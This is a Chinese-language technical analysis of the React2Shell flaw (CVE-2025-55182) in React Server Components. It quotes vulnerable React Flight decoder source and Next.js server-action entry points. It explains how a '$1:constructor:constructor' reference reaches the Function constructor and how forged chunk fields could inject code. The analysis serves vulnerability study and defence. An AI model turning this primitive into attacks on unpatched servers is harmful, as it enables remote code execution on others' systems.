

# React2Shell（CVE-2025-55182）漏洞深度分析与现代 Web 框架系统安全启示

## 摘要

2025 年 12 月 3 日，Meta 官方披露了 React Server Components 中存在的一个严重远程代码执行漏洞，编号为 CVE-2025-55182，安全社区将其命名为 React2Shell。该漏洞的通用漏洞评分系统（CVSS）评级为 10.0 分，属于最高危险等级。漏洞源于 React Flight 协议在反序列化服务端请求负载时，对用户控制的属性路径缺乏充分的访问控制检查，使得未经认证的攻击者能够通过构造精巧的序列化负载，逐步遍历对象原型链并最终获取 JavaScript 的 `Function` 构造函数，从而实现任意远程代码执行。该漏洞的影响范围覆盖了所有基于 React Server Components 架构的主流 Web 框架，包括 Next.js、React Router、Waku 等，涉及数以万计的生产环境应用。漏洞公开披露之后数小时内，安全厂商即观测到活跃的大规模野外利用行为，攻击者通过自动化扫描、部署挖矿程序、植入后门等手段发起大规模入侵。美国网络安全与基础设施安全局（CISA）于 2025 年 12 月 5 日将该漏洞纳入已知被利用漏洞目录（KEV），要求联邦机构在 12 月 12 日之前完成修复。本文从漏洞背景、原理机制、复现过程、修复方案以及对现代 Web 框架供应链安全治理的启示等角度，对 React2Shell 漏洞进行系统性分析。

**关键词**：React Server Components；远程代码执行；反序列化漏洞；CVE-2025-55182；React Flight 协议；供应链安全

---

## 漏洞背景与概述

### Next.js与React Server Components简介

Next.js 是由 Vercel 公司开发并维护的一个基于 React 的全栈 Web 应用框架。它在 React 的基础上提供了服务端渲染（Server-Side Rendering, SSR）、静态站点生成（Static Site Generation, SSG）、增量静态再生（Incremental Static Regeneration, ISR）、文件系统路由、API 路由以及中间件等丰富的开箱即用功能。自 2016 年发布以来，Next.js 凭借其优秀的开发体验与强大的性能优化能力，迅速成长为 React 生态中最为主流的应用框架，被 TikTok、Hulu、Netflix、Nike、Twitch 等众多大型互联网企业采用。

React 是由 Meta（原 Facebook）开发并开源的用于构建用户界面的 JavaScript 库，其声明式的组件模型与高效的虚拟 DOM 差分算法使其成为全球使用最为广泛的前端 UI 框架。在经历了从类组件到函数组件、从生命周期到 Hooks 的多次重大范式演进之后，React 在 2024 年 12 月正式发布的 19.0 版本中引入了 React Server Components（RSC）——一种允许组件在服务端直接运行并渲染的全新架构。该架构的核心设计理念是"零客户端 JavaScript"：服务端组件在服务端完成渲染并序列化为可传输的格式，客户端接收后在本地进行hydration，整个过程不向客户端发送服务端组件的源代码或依赖。这种设计有效地减少了客户端打包体积，提升了首屏加载性能。

React Server Components 架构的通信基础是 React Flight 协议。Flight 协议定义了一套在客户端与服务端之间双向序列化与反序列化 React 组件树的格式与规则。由于 JavaScript 的打包器（bundler）生态多轨并存，React 团队分别为 Webpack、Turbopack 和 Parcel 三种主流打包器提供了对应的适配层，以 npm 包的形式发布为 `react-server-dom-webpack`、`react-server-dom-turbopack` 和 `react-server-dom-parcel`。这三个包的发布版本与 React 主版本同步，共同构成了 React Server Components 在服务端运行时的核心依赖。

Next.js 自 13.3 版本开始集成了 React Server Components 的实验性支持，并在 14.x 及之后的版本中逐步将其推向生产可用。在 Next.js 框架中，开发者可以通过在 `app` 目录下以特定的文件命名约定（如 `page.tsx`、`layout.tsx`、`loading.tsx`）创建 React 组件，并由框架自动决定哪些组件在服务端运行、哪些在客户端运行。Next.js 通过 Server Actions机制进一步扩展了 RSC 的能力，允许客户端通过 HTTP 请求直接调用服务端定义的异步函数，实现表单提交、数据变更等操作。这一请求-响应闭环构成了 Next.js 应用中除传统 API 路由之外的第二个服务端入口点，也因此成为攻击者向服务端注入恶意负载的潜在攻击面。

### React2Shell（CVE-2025-55182）概述

CVE-2025-55182 是一个关于 React Server Components 的重大漏洞，由安全研究员 Lachlan Davidson 在 2025 年 11 月 29 日发现，通过负责任披露流程报告给 Meta 安全团队。该漏洞可以实现在未认证前提下的 RCE（Remote Code Execution，远程代码执行），使攻击者能够在运行 React Server Components 的服务器上执行任意 JavaScript 代码，从而危害目标服务器系统的安全。该漏洞的 CVSS 3.1 评分为 10.0 分，Vector string为 `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H`，在攻击向量、攻击复杂度、权限要求、用户交互、机密性影响、完整性影响和可用性影响等全部维度上均达到了最高风险级别。

该漏洞威胁等级高、影响面广泛、利用价值高、利用难度低，自公开之日起即受到全球安全社区的密切关注。受影响的 React 核心包包括 `react-server-dom-webpack`、`react-server-dom-turbopack` 和 `react-server-dom-parcel`，在框架层面，由于 Next.js、React Router、Waku、@parcel/rsc、@vitejs/plugin-rsc 和 Redwood SDK（rwsdk）等流行框架均内嵌了受影响的 React 包，因此整个 React Server Components 生态系统均受到波及。以 Next.js 为例，受影响版本覆盖了自 13.3.x 至 16.1.x 的多个主要版本线。

漏洞公开披露于 2025 年 12 月 3 日，Meta 与 Vercel 同步发布了修复版本和安全公告。然而，在公告发布的数小时之内，亚马逊云科技（AWS）威胁情报团队即观测到来自多个来源的主动野外利用行为，这些攻击活动呈现出自动化扫描、分布式扫描器、集中的后端基础设施等特征。

## React2Shell 漏洞原理

### React Flight 协议的解码机制

React Flight 协议在服务端的方向（即客户端向服务端发送请求）由 `react-server` 包中的 `ReactFlightReplyServer.js` 文件实现。在 19.2.0 漏洞版本中，该文件共计 1180 行，包含一个复杂的状态机，负责将客户端通过 HTTP 请求提交的 `multipart/form-data` 负载逐步解码并还原为原始 JavaScript 值。理解解码过程中的几个核心函数及其交互流程，是揭示整个漏洞利用链的必要前提。

服务端解码的上下文由 `Response` 对象统一管理，其类型定义位于第 167–175 行，包含 `_bundlerConfig`（打包器配置）、`_prefix`（表单字段名前缀）、`_formData`（原始 FormData 后备存储）、`_chunks`（以编号索引的 chunk Map）等核心字段。Chunk 按其生命周期状态分为六种类型变体（第 58–115 行），每一种均将 `_response` 作为自身的公开属性：

```javascript
// ReactFlightReplyServer.js 第 58–115 行（Chunk 类型变体）
type PendingChunk<T> = {
  status: 'pending',
  value: null | Array<(T) => mixed>,
  reason: null | Array<(mixed) => mixed>,
  _response: Response,
  then(resolve: (T) => mixed, reject?: (mixed) => mixed): void,
};
type BlockedChunk<T> = {
  status: 'blocked',
  value: null | Array<(T) => mixed>,
  reason: null | Array<(mixed) => mixed>,
  _response: Response,
  then(resolve: (T) => mixed, reject?: (mixed) => mixed): void,
};
type CyclicChunk<T> = {
  status: 'cyclic',
  value: null | Array<(T) => mixed>,
  reason: null | Array<(mixed) => mixed>,
  _response: Response,
  then(resolve: (T) => mixed, reject?: (mixed) => mixed): void,
};
type ResolvedModelChunk<T> = {
  status: 'resolved_model',
  value: string,
  reason: number,
  _response: Response,
  then(resolve: (T) => mixed, reject?: (mixed) => mixed): void,
};
type InitializedChunk<T> = {
  status: 'fulfilled',
  value: T,
  reason: null,
  _response: Response,
  then(resolve: (T) => mixed, reject?: (mixed) => mixed): void,
};
type ErroredChunk<T> = {
  status: 'rejected',
  value: null,
  reason: mixed,
  _response: Response,
  then(resolve: (T) => mixed, reject?: (mixed) => mixed): void,
};

// ReactFlightReplyServer.js 第 167–175 行（Response 类型定义）
export type Response = {
  _bundlerConfig: ServerManifest,
  _prefix: string,
  _formData: FormData,
  _chunks: Map<number, SomeChunk<any>>,
  _closed: boolean,
  _closedReason: mixed,
  _temporaryReferences: void | TemporaryReferenceSet,
};
```

当客户端发送一个以特定前缀命名的 FormData 字段时，React 调用 `createResponse`（第 1091–1108 行）构建 Response 实例并将字段写入 `_formData`，随后由 `resolveField`（第 1110–1127 行）将每个字段的键值对填充至 `_formData` 并触发对应编号的块解析：

```javascript
// ReactFlightReplyServer.js 第 118–123 行
function Chunk(status, value, reason, response) {
  this.status = status;
  this.value = value;
  this.reason = reason;
  this._response = response;
}
// 第 125 行
Chunk.prototype = Object.create(Promise.prototype);
```

`Chunk` 通过原型继承自 `Promise.prototype`，因此天然是一个 thenable 对象，可被 `await` 语法直接使用。`this._response` 直接挂载为实例的公开属性，将整个解码上下文暴露在块的属性空间内——这一设计为后续攻击者构造 fake chunk 时注入伪造上下文字段提供了基础。

`Chunk.prototype.then` 定义于第 127–165 行，其逻辑依据 `chunk.status` 分派至三条路径：若状态为 `"resolved_model"`，先行调用 `initializeModelChunk(chunk)` 将块从原始字符串初始化为 JavaScript 值；若状态为 `"fulfilled"`，已解码完成，直接通过 `resolve(chunk.value)` 返回结果；若状态为 `"pending"` / `"blocked"` / `"cyclic"`，则将 `resolve` 与 `reject` 回调注册到块的监听器列表中，待后续数据到达时唤醒。这一分派机制的核心在于第 136–138 行——对 `RESOLVED_MODEL` 状态的检测将驱动整个解码流程的启动：

```javascript
// ReactFlightReplyServer.js 第 127–165 行
Chunk.prototype.then = function <T>(
  this: SomeChunk<T>,
  resolve: (value: T) => mixed,
  reject: (reason: mixed) => mixed,
) {
  const chunk: SomeChunk<T> = this;
  // If we have resolved content, we try to initialize it first which
  // might put us back into one of the other states.
  switch (chunk.status) {
    case RESOLVED_MODEL:
      initializeModelChunk(chunk);
      break;
  }
  // The status might have changed after initialization.
  switch (chunk.status) {
    case INITIALIZED:
      resolve(chunk.value);
      break;
    case PENDING:
    case BLOCKED:
    case CYCLIC:
      if (resolve) {
        if (chunk.value === null) {
          chunk.value = ([]: Array<(T) => mixed>);
        }
        chunk.value.push(resolve);
      }
      if (reject) {
        if (chunk.reason === null) {
          chunk.reason = ([]: Array<(mixed) => mixed>);
        }
        chunk.reason.push(reject);
      }
      break;
    default:
      reject(chunk.reason);
      break;
  }
};
```

`initializeModelChunk`（第 446–501 行）是块解码流程的核心函数。它首先将块状态切换为 `CYCLIC`（用于防止循环引用导致无限递归，第 460–463 行），然后对 `chunk.value` 执行 `JSON.parse`（第 466 行），将原始 JSON 字符串转换为 JavaScript 对象；随后调用 `reviveModel`（第 468–474 行）递归解析对象中的 `$` 引用；最终根据是否存在未完成的模块依赖决定将块置为 `BLOCKED` 或 `INITIALIZED` 状态：

```javascript
// ReactFlightReplyServer.js 第 444–501 行
let initializingChunk: ResolvedModelChunk<any> = (null: any);
let initializingChunkBlockedModel: null | {deps: number, value: any} = null;
function initializeModelChunk<T>(chunk: ResolvedModelChunk<T>): void {
  const prevChunk = initializingChunk;
  const prevBlocked = initializingChunkBlockedModel;
  initializingChunk = chunk;
  initializingChunkBlockedModel = null;

  const rootReference =
    chunk.reason === -1 ? undefined : chunk.reason.toString(16);

  const resolvedModel = chunk.value;

  // We go to the CYCLIC state until we've fully resolved this.
  // We do this before parsing in case we try to initialize the same chunk
  // while parsing the model. Such as in a cyclic reference.
  const cyclicChunk: CyclicChunk<T> = (chunk: any);
  cyclicChunk.status = CYCLIC;
  cyclicChunk.value = null;
  cyclicChunk.reason = null;

  try {
    const rawModel = JSON.parse(resolvedModel);

    const value: T = reviveModel(
      chunk._response,
      {'': rawModel},
      '',
      rawModel,
      rootReference,
    );
    if (
      initializingChunkBlockedModel !== null &&
      initializingChunkBlockedModel.deps > 0
    ) {
      initializingChunkBlockedModel.value = value;
      // We discovered new dependencies on modules that are not yet resolved.
      // We have to go the BLOCKED state until they're resolved.
      const blockedChunk: BlockedChunk<T> = (chunk: any);
      blockedChunk.status = BLOCKED;
    } else {
      const resolveListeners = cyclicChunk.value;
      const initializedChunk: InitializedChunk<T> = (chunk: any);
      initializedChunk.status = INITIALIZED;
      initializedChunk.value = value;
      if (resolveListeners !== null) {
        wakeChunk(resolveListeners, value);
      }
    }
  } catch (error) {
    const erroredChunk: ErroredChunk<T> = (chunk: any);
    erroredChunk.status = ERRORED;
    erroredChunk.reason = error;
  } finally {
    initializingChunk = prevChunk;
    initializingChunkBlockedModel = prevBlocked;
  }
}
```

第 469 行的 `reviveModel(chunk._response, ...)` 调用直接将块的 `_response` 属性作为响应上下文传入，而这一上下文恰是前述 fake chunk 攻击的核心操控对象。

`reviveModel`（第 386–442 行）负责递归遍历解码后的 JavaScript 对象树。当遇到字符串值时，委托给 `parseModelString` 进行处理；当遇到数组或普通对象时，递归遍历每个元素或可枚举属性。值得特别注意的是，`reviveModel` 在遍历对象的可枚举属性时（第 417–418 行）**已经**使用了 `hasOwnProperty.call(value, key)` 进行过滤——这意味着攻击者无法通过直接在块 0 的顶层对象中写入 `"constructor"` 等原型属性来直接发起攻击，必须通过后续 `getOutlinedModel` 中缺少同类保护的路径来实现原型链遍历：

```javascript
// ReactFlightReplyServer.js 第 386–442 行
function reviveModel(
  response: Response,
  parentObj: any,
  parentKey: string,
  value: JSONValue,
  reference: void | string,
): any {
  if (typeof value === 'string') {
    // We can't use .bind here because we need the "this" value.
    return parseModelString(response, parentObj, parentKey, value, reference);
  }
  if (typeof value === 'object' && value !== null) {
    if (
      reference !== undefined &&
      response._temporaryReferences !== undefined
    ) {
      // Store this object's reference in case it's returned later.
      registerTemporaryReference(
        response._temporaryReferences,
        value,
        reference,
      );
    }
    if (Array.isArray(value)) {
      for (let i = 0; i < value.length; i++) {
        const childRef =
          reference !== undefined ? reference + ':' + i : undefined;
        // $FlowFixMe[cannot-write]
        value[i] = reviveModel(response, value, '' + i, value[i], childRef);
      }
    } else {
      for (const key in value) {
        if (hasOwnProperty.call(value, key)) {
          const childRef =
            reference !== undefined && key.indexOf(':') === -1
              ? reference + ':' + key
              : undefined;
          const newValue = reviveModel(
            response,
            value,
            key,
            value[key],
            childRef,
          );
          if (newValue !== undefined) {
            // $FlowFixMe[cannot-write]
            value[key] = newValue;
          } else {
            // $FlowFixMe[cannot-write]
            delete value[key];
          }
        }
      }
    }
  }
  return value;
}
```

`parseModelString`（第 916–1089 行）是整个 Flight 协议 `$` 引用的解析中枢。它根据字符串的第二个字符，分派至三个大型 switch 语句共二十余种类型解码器。其完整实现如下：

```javascript
// ReactFlightReplyServer.js 第 916–1089 行
function parseModelString(
  response: Response,
  obj: Object,
  key: string,
  value: string,
  reference: void | string,
): any {
  if (value[0] === '$') {
    switch (value[1]) {
      case '$': {
        // This was an escaped string value.
        return value.slice(1);
      }
      case '@': {
        // Promise
        const id = parseInt(value.slice(2), 16);
        const chunk = getChunk(response, id);
        return chunk;
      }
      case 'F': {
        // Server Reference
        const ref = value.slice(2);
        // TODO: Just encode this in the reference inline instead of as a model.
        const metaData: {
          id: ServerReferenceId,
          bound: null | Thenable<Array<any>>,
        } = getOutlinedModel(response, ref, obj, key, createModel);
        return loadServerReference(
          response,
          metaData.id,
          metaData.bound,
          initializingChunk,
          obj,
          key,
        );
      }
      case 'T': {
        // Temporary Reference
        if (
          reference === undefined ||
          response._temporaryReferences === undefined
        ) {
          throw new Error(
            'Could not reference an opaque temporary reference. ' +
              'This is likely due to misconfiguring the temporaryReferences options ' +
              'on the server.',
          );
        }
        return createTemporaryReference(
          response._temporaryReferences,
          reference,
        );
      }
      case 'Q': {
        // Map
        const ref = value.slice(2);
        return getOutlinedModel(response, ref, obj, key, createMap);
      }
      case 'W': {
        // Set
        const ref = value.slice(2);
        return getOutlinedModel(response, ref, obj, key, createSet);
      }
      case 'K': {
        // FormData
        const stringId = value.slice(2);
        const formPrefix = response._prefix + stringId + '_';
        const data = new FormData();
        const backingFormData = response._formData;
        // We assume that the reference to FormData always comes after each
        // entry that it references so we can assume they all exist in the
        // backing store already.
        // $FlowFixMe[prop-missing] FormData has forEach on it.
        backingFormData.forEach((entry: File | string, entryKey: string) => {
          if (entryKey.startsWith(formPrefix)) {
            // $FlowFixMe[incompatible-call]
            data.append(entryKey.slice(formPrefix.length), entry);
          }
        });
        return data;
      }
      case 'i': {
        // Iterator
        const ref = value.slice(2);
        return getOutlinedModel(response, ref, obj, key, extractIterator);
      }
      case 'I': {
        // $Infinity
        return Infinity;
      }
      case '-': {
        // $-0 or $-Infinity
        if (value === '$-0') {
          return -0;
        } else {
          return -Infinity;
        }
      }
      case 'N': {
        // $NaN
        return NaN;
      }
      case 'u': {
        // matches "$undefined"
        // Special encoding for `undefined` which can't be serialized as JSON otherwise.
        return undefined;
      }
      case 'D': {
        // Date
        return new Date(Date.parse(value.slice(2)));
      }
      case 'n': {
        // BigInt
        return BigInt(value.slice(2));
      }
    }
    switch (value[1]) {
      case 'A':
        return parseTypedArray(response, value, ArrayBuffer, 1, obj, key);
      case 'O':
        return parseTypedArray(response, value, Int8Array, 1, obj, key);
      case 'o':
        return parseTypedArray(response, value, Uint8Array, 1, obj, key);
      case 'U':
        return parseTypedArray(response, value, Uint8ClampedArray, 1, obj, key);
      case 'S':
        return parseTypedArray(response, value, Int16Array, 2, obj, key);
      case 's':
        return parseTypedArray(response, value, Uint16Array, 2, obj, key);
      case 'L':
        return parseTypedArray(response, value, Int32Array, 4, obj, key);
      case 'l':
        return parseTypedArray(response, value, Uint32Array, 4, obj, key);
      case 'G':
        return parseTypedArray(response, value, Float32Array, 4, obj, key);
      case 'g':
        return parseTypedArray(response, value, Float64Array, 8, obj, key);
      case 'M':
        return parseTypedArray(response, value, BigInt64Array, 8, obj, key);
      case 'm':
        return parseTypedArray(response, value, BigUint64Array, 8, obj, key);
      case 'V':
        return parseTypedArray(response, value, DataView, 1, obj, key);
      case 'B': {
        // Blob
        const id = parseInt(value.slice(2), 16);
        const prefix = response._prefix;
        const blobKey = prefix + id;
        // We should have this backingEntry in the store already because we emitted
        // it before referencing it. It should be a Blob.
        const backingEntry: Blob = (response._formData.get(blobKey): any);
        return backingEntry;
      }
    }
    switch (value[1]) {
      case 'R': {
        return parseReadableStream(response, value, undefined, obj, key);
      }
      case 'r': {
        return parseReadableStream(response, value, 'bytes', obj, key);
      }
      case 'X': {
        return parseAsyncIterable(response, value, false, obj, key);
      }
      case 'x': {
        return parseAsyncIterable(response, value, true, obj, key);
      }
    }
    // We assume that anything else is a reference ID.
    const ref = value.slice(1);
    return getOutlinedModel(response, ref, obj, key, createModel);
  }
  return value;
}
```

上述分支中，`$@id` 返回的是 `Chunk` 实例本身（第 932 行 `return chunk`），而非其解码后的值——这一行为为 fake chunk 攻击提供了获取 thenable 引用的入口。`$Bid` 分支（第 1063 行）中 `prefix` 来自 `response._prefix`、`blobKey` 为 `prefix + id` 的拼接结果，而 `backingEntry` 从 `response._formData.get(blobKey)` 获取——当攻击者控制了 `response._prefix` 和 `response._formData.get` 时，这两行代码将直接构成代码注入的完整触发条件。默认路径将 `$` 之后的部分作为引用交由 `getOutlinedModel` 解析。

`getOutlinedModel` 函数（第 595–638 行）是漏洞利用链中最为关键的代码路径。它首先将引用字符串按冒号分割为路径数组，取第一部分（十六进制数字）作为目标块编号，通过 `getChunk` 获取或创建对应块；然后根据块的状态决定行为——若块已初始化为 `INITIALIZED`，则按路径中余下的元素依次进行属性访问，**且不进行任何 `hasOwnProperty` 检查**：

```javascript
// ReactFlightReplyServer.js 第 595–638 行（漏洞核心）
function getOutlinedModel<T>(
  response: Response,
  reference: string,
  parentObject: Object,
  key: string,
  map: (response: Response, model: any) => T,
): T {
  const path = reference.split(':');
  const id = parseInt(path[0], 16);
  const chunk = getChunk(response, id);
  switch (chunk.status) {
    case RESOLVED_MODEL:
      initializeModelChunk(chunk);
      break;
  }
  // The status might have changed after initialization.
  switch (chunk.status) {
    case INITIALIZED:
      let value = chunk.value;
      for (let i = 1; i < path.length; i++) {
        value = value[path[i]];                // ← 漏洞点：无 hasOwnProperty 检查
      }
      return map(response, value);
    case PENDING:
    case BLOCKED:
    case CYCLIC:
      const parentChunk = initializingChunk;
      chunk.then(
        createModelResolver(
          parentChunk,
          parentObject,
          key,
          chunk.status === CYCLIC,
          response,
          map,
          path,
        ),
        createModelReject(parentChunk),
      );
      return (null: any);
    default:
      throw chunk.reason;
  }
}
```

第 614 行的 `value = value[path[i]]` 是整个 19.2.0 版本 React 反序列化引擎中未能获得 `hasOwnProperty` 保护的关键指令。由于 `path[i]` 完全由攻击者通过 `$` 引用字符串控制，且属性访问未限制在对象自身属性范围内，攻击者可以在此处穿越原型链，从普通对象一路遍历至 `Function` 构造函数。

值得注意的是，这一漏洞模式在 `createModelResolver` 函数（第 542–589 行）中同样存在。该函数是 `getOutlinedModel` 在目标块处于 `PENDING`/`BLOCKED`/`CYCLIC` 状态时（第 170–178 行）用于异步注册的回调构造器。其返回的回调函数在目标块完成解码后执行，第 564–566 行同样包含未受 `hasOwnProperty` 保护的路径遍历 `value = value[path[i]]`：

```javascript
// ReactFlightReplyServer.js 第 542–589 行
function createModelResolver<T>(
  chunk: SomeChunk<T>,
  parentObject: Object,
  key: string,
  cyclic: boolean,
  response: Response,
  map: (response: Response, model: any) => T,
  path: Array<string>,
): (value: any) => void {
  let blocked;
  if (initializingChunkBlockedModel) {
    blocked = initializingChunkBlockedModel;
    if (!cyclic) {
      blocked.deps++;
    }
  } else {
    blocked = initializingChunkBlockedModel = {
      deps: (cyclic ? 0 : 1) as number,
      value: (null: any),
    };
  }
  return value => {
    for (let i = 1; i < path.length; i++) {
      value = value[path[i]];
    }
    parentObject[key] = map(response, value);

    // If this is the root object for a model reference, where `blocked.value`
    // is a stale `null`, the resolved value can be used directly.
    if (key === '' && blocked.value === null) {
      blocked.value = parentObject[key];
    }

    blocked.deps--;
    if (blocked.deps === 0) {
      if (chunk.status !== BLOCKED) {
        return;
      }
      const resolveListeners = chunk.value;
      const initializedChunk: InitializedChunk<T> = (chunk: any);
      initializedChunk.status = INITIALIZED;
      initializedChunk.value = blocked.value;
      if (resolveListeners !== null) {
        wakeChunk(resolveListeners, blocked.value);
      }
    }
  };
}
```

`getChunk` 函数（第 518–540 行）负责按编号获取或创建块。它首先尝试从 `response._chunks` Map 中查找已存在的块，若未命中，则从 `response._formData` 中按 `prefix + id` 键名查找后备数据。值得注意第 526 行的条件判断——仅检查 `backingEntry != null` 而非验证类型为字符串：

```javascript
// ReactFlightReplyServer.js 第 518–540 行
function getChunk(response: Response, id: number): SomeChunk<any> {
  const chunks = response._chunks;
  let chunk = chunks.get(id);
  if (!chunk) {
    const prefix = response._prefix;
    const key = prefix + id;
    // Check if we have this field in the backing store already.
    const backingEntry = response._formData.get(key);
    if (backingEntry != null) {
      // We assume that this is a string entry for now.
      chunk = createResolvedModelChunk(response, (backingEntry: any), id);
    } else if (response._closed) {
      // We have already errored the response and we're not going to get
      // anything more streaming in so this will immediately error.
      chunk = createErroredChunk(response, response._closedReason);
    } else {
      // We're still waiting on this entry to stream in.
      chunk = createPendingChunk(response);
    }
    chunks.set(id, chunk);
  }
  return chunk;
}
```

该宽松的类型检查在正常流程中允许 React 处理多种数据类型（字符串和 Blob 均可作为块的原始数据），但同时也为 fake chunk 攻击中以函数引用或其他非预期对象注入块的解析流程留出了空间。

综合以上各函数的交互流程，React Flight 协议的完整解码路径为：`getRoot(response)` 获取根块（第 177–179 行）→ `await chunk` 触发 `Chunk.prototype.then`（第 127 行）→ `initializeModelChunk` 解析并递归（第 446 行）→ `reviveModel` 遍历对象（第 386 行）→ `parseModelString` 识别 `$` 引用类型（第 916 行）→ `getOutlinedModel` 解析引用路径（第 595 行）。在这一连串调用中，漏洞的两个必要条件均已具备：`getOutlinedModel` 中缺乏 `hasOwnProperty` 的属性遍历（第 614 行）允许攻击者穿越原型链；`Chunk` 对象上公开的 `_response` 属性（第 122 行）允许攻击者在 fake chunk 中注入伪造的解码上下文。

### Next.js 中的漏洞入口点

上述由 React 核心库提供的反序列化函数通过 Next.js 框架暴露给外部攻击者，成为整个 React2Shell 攻击面在网络上的实际入口。在 Next.js 的源码中，服务端动作（Server Actions）的请求处理由 `packages/next/src/server/app-render/action-handler.ts` 文件统一负责。该文件根据运行环境（Node.js 或 Edge Runtime）选择导入 React 的不同变体，并将客户端提交的 `multipart/form-data` 或纯文本 POST 负载传递至 React 的反序列化函数。

在 Node.js 环境下，Next.js 通过 `entry-base.ts` 统一从 `react-server-dom-webpack/server.node` 导入漏洞版本的 `decodeReply`、`decodeReplyFromBusboy` 和 `decodeAction`：

```typescript
// packages/next/src/server/app-render/react-server.node.ts
import {
  decodeReply,
  decodeReplyFromBusboy,
  decodeAction,
} from 'react-server-dom-webpack/server.node'
```

Edge Runtime 路径则通过组件模块导出（`ComponentMod`）间接引用相同的反序列化函数。在 `action-handler.ts` 的核心处理逻辑中，对于多部分（multipart）的 Fetch Action 请求，Next.js 直接将客户端提供的 `FormData` 传入 `decodeReply`：

```typescript
// packages/next/src/server/app-render/action-handler.ts (约第 783 行)
if (isMultipartAction) {
  const formData = await req.request.formData()
  if (isFetchAction) {
    actionModId = getActionModIdOrError(actionId, serverModuleMap)
    boundActionArguments = await decodeReply(
      formData,            // 攻击者完全可控的 FormData 负载
      serverModuleMap,
      { temporaryReferences }
    )
  }
  // ...
}
```

对于非多部分（non-multipart）请求体，Next.js 同样通过流式读取后直接调用 `decodeReply`：

```typescript
// packages/next/src/server/app-render/action-handler.ts (约第 864 行)
// 非 multipart 的 fetch action
const body = Buffer.concat(chunks).toString()
boundActionArguments = await decodeReply(
  body,                  // 攻击者完全可控的原始字符串负载
  serverModuleMap,
  { temporaryReferences }
)
```

在 Node.js 环境下且请求为 multipart 格式时，Next.js 还支持通过 Busboy（Node.js 的 multipart 解析器）以流式方式处理请求体，并调用 `decodeReplyFromBusboy` 进行解码：

```typescript
// packages/next/src/server/app-render/action-handler.ts (约第 957 行)
const {
  decodeReply,
  decodeReplyFromBusboy,
  decodeAction,
} = require('react-server-dom-webpack/server.node')

const busboy = parseFormData(req, res)
if (isFetchAction) {
  boundActionArguments = await decodeReplyFromBusboy(
    busboy,
    serverModuleMap,
    { temporaryReferences }
  )
}
// ...
```

这些入口函数无一例外地将未经充分验证的客户端数据直接交付给 React Flight 协议的反序列化引擎，而该引擎在前述 `getOutlinedModel` 和 `reviveModel` 中存在原型链遍历与代码注入漏洞，从而构成了从网络边界到进程内任意代码执行的完整攻击链路。

此外，Next.js 的 `encryption.ts` 文件也通过 `createFromReadableStream`（客户端向服务端方向的反序列化函数，由 `react-server-dom-webpack/client` 提供）在解密服务端动作绑定参数的过程中引入了一条平行的攻击路径。该函数内部使用相同的 Flight 协议反序列化引擎来处理攻击者提供的加密负载，当攻击者能够获取加密密钥或绕过加密保护时，该路径同样面临被利用的风险：

```typescript
// packages/next/src/server/app-render/encryption.ts
import { createFromReadableStream } from 'react-server-dom-webpack/client'

export async function decryptActionBoundArgs(
  actionId: string,
  encryptedPromise: Promise<string>
) {
  const decrypted = await decodeActionBoundArg(actionId, encrypted)

  const deserialized = await createFromReadableStream(
    new ReadableStream({
      start(controller) {
        controller.enqueue(textEncoder.encode(decrypted))
        // ...
      },
    }),
    { /* ... */ }
  )
  return deserialized
}
```

上述所有路径最终均指向 React Flight 协议的同一套反序列化实现（即前述 `ReactFlightReplyServer.js` 中的 `getOutlinedModel`、`reviveModel` 和 `initializeModelChunk`），因此无论攻击者通过哪一种 Next.js 暴露的请求格式发起攻击，漏洞的原理和利用效果完全一致。

### 原型链遍历与 Function 构造函数的获取

JavaScript 是一种基于原型继承的语言。几乎所有 JavaScript 对象都通过原型链连接到 `Object.prototype`，而数组对象则连接到 `Array.prototype`，函数对象连接到 `Function.prototype`。在 JavaScript 中，`Function` 构造函数是一个能够在运行时动态创建并执行任意代码的特殊内置对象——调用 `Function("任意代码")()` 即可在当前的执行上下文中运行传入的 JavaScript 代码字符串。攻击者若能触及 `Function` 构造函数，即获得了在目标进程中执行任意代码的能力，这是几乎所有 JavaScript 反序列化漏洞的终极目标。

在 React2Shell 的利用链中，攻击者达到 `Function` 构造函数的手段依赖于 `getOutlinedModel` 函数中对 `value = value[path[i]]` 模式的无限制属性访问。具体考察该段代码的行为：

```javascript
let value = targetChunk.value;          // 假设 chunk 1 解码为 []
for (let i = 1; i < path.length; i++) {
  value = value[path[i]];               // path = ["1", "constructor", "constructor"]
}
// 第 1 次迭代: value = []["constructor"]  → Array 构造函数
// 第 2 次迭代: value = Array["constructor"] → Function 构造函数
```

由于 JavaScript 中任意对象的 `constructor` 属性是对其构造函数的引用（例如 `[].constructor === Array`），而构造函数本身也是函数对象，其自身的 `constructor` 属性又指向 `Function`，连续两次访问 `constructor` 即可从几乎任意对象抵达全局的 `Function` 构造函数。为了使 React 在解码路径中穿越上述属性链，攻击者只需在负载的块 0 中放入引用字符串 `"$1:constructor:constructor"`，即可将 `getOutlinedModel` 中的 `path` 数组构造为第 `["1", "constructor", "constructor"]`，并使 React 在反序列化过程中执行属性遍历，最终获得 `Function` 构造函数的引用。

